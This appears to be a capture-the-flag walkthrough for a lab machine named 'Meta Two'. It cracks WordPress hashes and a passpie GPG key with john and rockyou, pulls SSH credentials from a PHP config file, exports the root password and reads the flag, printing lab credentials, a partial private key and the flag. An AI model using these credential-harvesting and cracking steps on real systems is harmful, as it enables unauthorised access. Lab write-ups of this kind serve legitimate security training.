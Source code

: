 # Meta Two





Store the passwords in a file !
> I named ```hashes```

By an brute force attack we find this
```
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes
```

We've got the manager password !
```
partylikearockstar
```

So connect to the url: ```metapress.htb/wp-admin``` by the following credentials
```
manager@metapress.htb
partylikearockstart
```





In the file ```mailer/send_email.php``` we find the jnelson ssh credentials
```
jnelson@metapress.htb
Cb4_JmWM8zUZWMu@Ys
```

We found the directory ```~/.passpie```. And inside the directory ```~/.passpie/ssh``` where We got
```
total 16
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25 12:52 .
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25 12:52 ..
-r-xr-x--- 1 jnelson jnelson  683 Oct 25 12:52 jnelson.pass
-r-xr-x--- 1 jnelson jnelson  673 Oct 25 12:52 root.pass
```

The ```passpie``` service can helps up to the privilege scalation ! In the directory ```~/.passpie```we find the private gpg key
```
.keys
```

We can try to brute force the file. So copy the (or extract) the private gpg key part (cf. [here](./tmp/private_key.txt) )
```
-----BEGIN PGP PRIVATE KEY BLOCK-----

lQUBBGK4V9YRDADENdPyGOxVM7hcLSHfXg+21dENGedjYV1gf9cZabjq6v440NA1
AiJBBC1QUbIHmaBrxngkbu/DD0gzCEWEr2pFusr/Y3yY4codzmteOW6Rg2URmxMD
...
...
...
V9YCGwwACgkQOHd1w1dF0gOm5gD9GUQfB+Jx/Fb7TARELr4XFObYZq7mq/NUEC+P
o3KGdNgA/04lhPjdN3wrzjU3qmrLfo6KI+w2uXLaw+bIT1XZurDN
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----
```

With ```john```, can brute force it !
```
gpg2john private_key.txt > private_key_cracked.txt
```


We generated a file where the gpg key was "broken" (cf. [here](./tmp/private_key_cracked.txt) )
```
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::private_key.txt
```

Now, use ```john``` to get the real password
```
john private_key_cracked.txt -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

We have the password !
```
blink182
```

Let's back to the ```jnelson@meta2``` session !
```
jnelson@meta2:~$ touch pass
jnelson@meta2:~$ passpie export pass
```

We enter the password we cracked ! (```blink182```) and open the file ```pass``` ! (cf. [file](./tmp/pass) )
```
  fullname: root@ssh
  login: root
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
```

We have the root password ! let's connect as root !
```
su root
```
> Enter p7qfAZt4_A1xo_0x as password !

Get the flag at ```/root/root.txt```
```
834a8dcb8c4488aef36d213477c44ac1
```

Done !
